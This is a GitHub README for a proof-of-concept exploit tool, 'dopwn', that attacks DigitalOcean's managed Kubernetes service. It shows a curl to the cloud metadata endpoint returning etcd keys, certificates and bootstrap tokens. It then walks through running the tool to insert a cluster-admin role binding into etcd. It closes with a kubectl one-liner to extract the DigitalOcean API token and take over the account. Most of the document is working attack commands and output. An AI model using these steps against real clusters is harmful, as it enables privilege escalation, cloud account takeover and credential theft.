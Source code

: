 # DigitalOcean Pwner

This is a proof-of-concept tool to exploit a combination of weaknesses in the new Kubernetes managed service from DigitalOcean.

## Caveats

This tool is going to write arbitrary objects into your Kubernetes cluster's `etcd` backend. It _should_ be ok but there's every chance something could go wrong so be prepared for that. If you break something it's absolutely not my fault, this code is provided as-is and without warranty.

If something breaks, raise an issue and I'll see if I can fix the code to prevent future similar events.

## Installation

Download the binary release from the Releases tab above.

## Usage

You need the output of the DigitalOcean user-data in a file. There's a number of ways you could get this, if you have access to a pod you can use cURL:

```bash
~ $ curl -qs http://169.254.169.254/metadata/v1/user-data
#cloud-config
k8saas_role: kubelet
k8saas_master_domain_name: "aac71799-f33a-444d-89a8-b20a3441635e.k8s.ondigitalocean.com"
k8saas_bootstrap_token: "4b7ae52cd675200f0955f69163d4c13c72a3b4e6ed6fcfb84bcf34add6dfc865"
k8saas_proxy_token: "6cb9b9da7256fc4f4759847d73e1dec2a47807c8ed6287c0986038d415c981fb"
k8saas_ca_cert: "-----BEGIN CERTIFICATE-----\nMIIDJzCCAg+gAwIBAgICBnUwDQYJKoZIhvcNAQELBQAwMzEVMBMGA1UEChMMRGln\naXRhbE9jZWFuMRowGAYDVQQDExFrOHNhYXMgQ2x1c3RlciBDQTAeFw0xODEyMjAx\nMDA2MjVaFw0zODEyMjAxMDA2MjVaMDMxFTATBgNVBAoTDERpZ2l0YWxPY2VhbjEa\nMBgGA1UEAxMRazhzYWFzIENsdXN0ZXIgQ0EwggEiMA0GCSqGSIb3DQEBAQUA[..]JO235eM7L\ne9ywg0QelxRTUjChNqC2QkE9H8YbqO5UmAma+ZxG0G71LOFU6nzardgNrOAd0VX9\nssOBlUJcyFBni9dE4wwNGMgg4ZJ8hZnqNGq9aKO5YxYexpRGvjs02XEqLQT6MhpC\nNOAS44LZ7QwHe37SoeIhq5mnFnaXYHobAjjKhprgTZS/oH80y9O9wOWqaVMiAGAD\ngm/xdELUeqItctGi9bsELWGzEAEj++90ysSTBSn3aEUnk1HCooEq5agvog==\n-----END CERTIFICATE-----\n"
k8saas_etcd_ca: "-----BEGIN CERTIFICATE-----\nMIIDJzCCAg+gAwIBAgICBnUwDQYJKoZIhvcNAQELBQAwMzEVMBMGA1UEChMMRGln[..]lsczwKsQs1BAMDfYZGQ/KwO8RNxZ4Ll0H83/cLsEq5VE\nLOqJzev29a/Gd2cGShpMjWVVT6GruFZ4hgdGncA2WIEvAWiSKc+0CcrM2SYnGgzs\nOEpx1uudl7YvXNYgn4IxvHab2UVWlm60dI3tKL5CtY5fZS47iWL4kuoP3HlQtm8n\n/9ks1nkcQlXJo41ENCISrt04wZdMxyRtUaDjewJvebkvCjtwr0m0T9kHJw==\n-----END CERTIFICATE-----\n"
k8saas_etcd_key: "-----BEGIN RSA PRIVATE KEY-----\nMIIEpAIBAAKCAQEAuWXwbSO8Y9QtPxndGZUD5QHgLX5SnTz/9dKRcKhdHPvPDMkc\nK5kXKtWFmrK/4KunjLj9fX8s36sB0qe4dJrjPlVEZMOtfZUwlc+jLYSjxyYKtdmS\nA7wLxxV+beflo8x37A/0jyFl57efzmmNZ7T01TG4drt4eysr[..]n0YAe5xWaWOZ7e1xE4DqUbULeybNeBdLm/SJ+22dlmCgsphKeolzjWFeLKfg67Diw\n914gAC0CgYAP88QdhsOpW+Nzz5ddwjCK/o8cL7/nnORhf9TI7sPlYwNca3AEgR0w\n7jqbSvHJt8AIY4NSQaokB1yvealnaW1uTak6Ak0ote6TsO1xH+dRHH1eqVm55GtX\nKKkpKZcj6lFBLQ3ab5GxJA00D4yNinkDnxMC6tivdW2ZJgE1HAs/3A==\n-----END RSA PRIVATE KEY-----\n"
k8saas_etcd_cert: "-----BEGIN CERTIFICATE-----\nMIIEazCCA1OgAwIBAgICBnUwDQYJKoZIhvcNAQELBQAwMzEVMBMGA1UEChMMRGln\naXRhbE9jZWFuMRowGAYDVQQDExFrOHNhYXMgQ2x1c3RlciBDQTAeFw0xODEyMjAx\nMDA4MDBaFw0zODEyMjAxMDA4MDBaMFkxCzAJBgNVBAYTAlVTMQswCQYDVQQIEwJO\nWTERMA8GA1UEBxMITmV3IFlvcmsxFTATB[..]JNzdzeIWqCR+H8dlu3mZHhJ6+PZr/mxQTaTbT7bJMHpO+iZqxFRBsNZ1hN\nczftZQXKqHgLsy+q4lh2H0YcCI1GJy5XrO5Yb0UWYGyAAQUrc4wc5HrN7DmPtDpe\n9axdb4C1fZtkj1MvjItaCWBDU5OzQGEsYLugbw3U2Q==\n-----END CERTIFICATE-----\n"
k8saas_overlay_subnet: "10.244.0.0/16"
k8saas_dns_service_ip: "10.245.0.10"
```

Save this output to a file on your local machine, either by copy/paste or output from kubectl cp/exec, etc.

In this example, I'll put it in a file called `user-data.txt`. Now run `dopwn exploit` with the `-f` parameter specifying the location of the `user-data.txt` file.

```bash
$ dopwn exploit -f user-data.txt
2018-12-20T10:29:56Z [ℹ]  read metadata from file: user-data.txt
2018-12-20T10:29:56Z [ℹ]  parsing metadata to get etcd creds
2018-12-20T10:29:56Z [ℹ]  writing etcd ca to file: etcd-ca.crt
2018-12-20T10:29:56Z [ℹ]  writing etcd cert to file: etcd.crt
2018-12-20T10:29:56Z [ℹ]  writing etcd key to file: etcd.key
2018-12-20T10:29:56Z [ℹ]  fetching kube-system default service account token from etcd at aac71799-f33a-444d-89a8-b20a3441635e.k8s.ondigitalocean.com:2379
2018-12-20T10:29:58Z [ℹ]  decoding serviceAccount
2018-12-20T10:29:58Z [ℹ]  fetching serviceAccountToken secret
2018-12-20T10:29:58Z [ℹ]  decoding secret
2018-12-20T10:29:58Z [ℹ]  writing API server CA cert file to ca.crt
2018-12-20T10:29:58Z [ℹ]  generating kubeconfig
2018-12-20T10:29:58Z [ℹ]  wrote kubeconfig
2018-12-20T10:29:58Z [ℹ]  generating clusterrolebinding
2018-12-20T10:29:58Z [ℹ]  encoding clusterrolebinding
2018-12-20T10:29:58Z [ℹ]  inserting clusterrolebinding into etcd......wish me luck......
2018-12-20T10:29:58Z [ℹ]  o_O
2018-12-20T10:29:58Z [ℹ]  You are now cluster-admin using the token in kubeconfig
2018-12-20T10:29:58Z [ℹ]  For an added bonus, grab the digitalocean secret and take over the DO account too:
2018-12-20T10:29:58Z [ℹ]  kubectl --kubeconfig=kubeconfig -n kube-system get secret digitalocean -o jsonpath='{.data.access-token}' | base64 --decode
```

That's it, you're done. You should now have a file called `kubeconfig` in the same directory which you can use to access the cluster.

```bash
kubectl --kubeconfig=kubeconfig auth can-i get secrets
yes
```


### Contributing

This is frankly pretty fugly code. I'm not particularly proud of it. I don't think it's very idiomatic, it's got a big monolithic func call and at the moment there's an unnecessary subcommand. But it works. And I'm hoping the weaknesses won't be around long enough to justify the refactoring. If you want to tidy it up I would love the input though. Just submit a PR.